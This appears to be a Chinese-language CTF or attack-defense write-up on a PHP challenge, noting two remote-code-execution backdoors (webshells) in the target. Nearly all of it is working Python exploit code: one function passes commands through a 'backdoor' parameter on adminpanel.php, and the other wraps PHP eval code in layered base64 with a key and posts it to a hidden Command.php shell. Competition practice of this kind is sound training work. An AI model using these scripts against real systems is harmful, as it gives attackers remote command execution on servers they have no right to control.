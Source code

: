 # PHP那题
	- 发现了两个位置的rce漏洞
	- 第一个就是对应位置的马
		- ```python
		  def exp_1(url, payload):
		    try:
		        r = requests.get(
		            f"{url}/Home/template/default/adminpanel.php",
		            params={"backdoor": payload},
		            timeout=0.5,
		        )
		    except Exception:
		        return 500, ""
		    return r.status_code, r.text
		  
		  ```
	- 还有一个马，但是马设计得比较复杂，需要好好分析，利用脚本如下
		- ```python
		  
		  def exp_2_encode(payload, key):
		    payload = f"'';eval(base64_decode({encoder.base64_encode(payload)!r}));"
		    payload = encoder.base64_encode(payload)
		    payload = key + payload
		    payload = encoder.base64_encode(payload)
		    return payload
		  
		  
		  sessions = requests.session()
		  
		  
		  # @wrapped
		  def exp_2(url, payload, password="command"):
		    try:
		        r = sessions.post(
		            f"{url}/A/t/tpl/common/Command.php",
		            data={password: exp_2_encode(payload, password)},
		            timeout=1,
		        )
		    except Exception:
		        return 500, ""
		    if not r:
		        return 500, ""
		    return r.status_code, r.text
		  
		  ```